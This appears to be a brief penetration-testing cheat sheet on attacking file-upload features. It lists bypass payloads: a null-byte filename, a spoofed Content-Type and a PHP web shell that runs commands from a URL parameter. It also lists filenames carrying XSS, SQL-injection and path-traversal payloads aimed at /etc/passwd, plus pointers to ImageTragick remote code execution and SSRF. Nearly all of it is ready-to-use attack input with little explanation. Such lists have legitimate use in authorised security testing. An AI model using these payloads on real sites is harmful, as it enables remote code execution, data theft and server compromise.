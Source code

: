 ### Vulnerabilities via Arbitrary File Upload


### Bypasses

#### Null Byte Bypass
```
image.php%00.png
```

#### Content-Type Bypass
```
Content-Type: image/jpeg
```

#### Content-Length Bypass
```
<?php system($_GET['c']);?>
```

### Chain With Other Vulnerabilities

#### XSS(Cross Site Scripting)
```
Filename: "><svg onload=alert(1)>.jpeg
xss.svg -> file contain xss payload inside svg format
```

#### SQL Injection
```
'sleep(10).jpg
```

#### Path Traversal
```
../../logo.png
../../etc/passwd/logo.png
```

#### RCE
```
ImageTragic
```

#### SSRF
```
Change 'type=file' to 'type=url'
```

#### Uploaded file not found? Try Path Traversal on filename.
#### Try to brutefore file extension
